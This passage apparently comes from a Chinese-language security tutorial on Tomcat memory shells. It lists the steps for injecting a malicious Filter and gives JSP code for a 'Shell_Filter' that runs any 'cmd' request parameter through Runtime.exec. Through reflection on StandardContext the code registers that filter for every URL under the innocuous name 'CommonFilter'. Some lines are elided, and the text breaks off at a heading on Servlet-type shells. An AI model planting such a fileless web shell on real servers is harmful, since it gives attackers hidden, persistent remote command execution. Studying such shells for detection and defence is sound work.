 获取StandardContext对象<br />创建恶意Filter<br />使用FilterDef对Filter进行封装，并添加必要的属性<br />创建filterMap类，并将路径和Filtername绑定，然后将其添加到filterMaps中<br />使用ApplicationFilterConfig封装filterDef，然后将其添加到filterConfigs中<br />实例：
```java
......            

<%! public class Shell_Filter implements Filter {
        public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain) throws IOException, ServletException {
            String cmd = request.getParameter("cmd");
            if (cmd != null) {
                try {
                    Runtime.getRuntime().exec(cmd);
......            


%>

<%
    // 创建一个新的Shell_Filter实例
    Shell_Filter filter = new Shell_Filter();

    // 设置过滤器的名称为"CommonFilter"
    String name = "CommonFilter";

    // 创建一个新的FilterDef实例并设置相关属性
    FilterDef filterDef = new FilterDef();
    filterDef.setFilter(filter);
    filterDef.setFilterName(name);
    filterDef.setFilterClass(filter.getClass().getName());
    // 将过滤器定义添加到standardContext中
    standardContext.addFilterDef(filterDef);


    // 创建一个新的FilterMap实例并设置相关属性
    FilterMap filterMap = new FilterMap();
    filterMap.addURLPattern("/*");
    filterMap.setFilterName(name);
    filterMap.setDispatcher(DispatcherType.REQUEST.name());

    // 将过滤器映射添加到standardContext中
    standardContext.addFilterMapBefore(filterMap);


    // 获取standardContext类中的filterConfigs属性
    Field Configs = standardContext.getClass().getDeclaredField("filterConfigs");
    Configs.setAccessible(true);
    Map filterConfigs = (Map) Configs.get(standardContext);

    // 创建一个新的ApplicationFilterConfig实例并添加到filterConfigs中
    Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class,FilterDef.class);
    constructor.setAccessible(true);
    ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext,filterDef);
    filterConfigs.put(name, filterConfig);
%>
```
<a name="HI52C"></a>
## Servlet类内存马
创建Servlet的流程
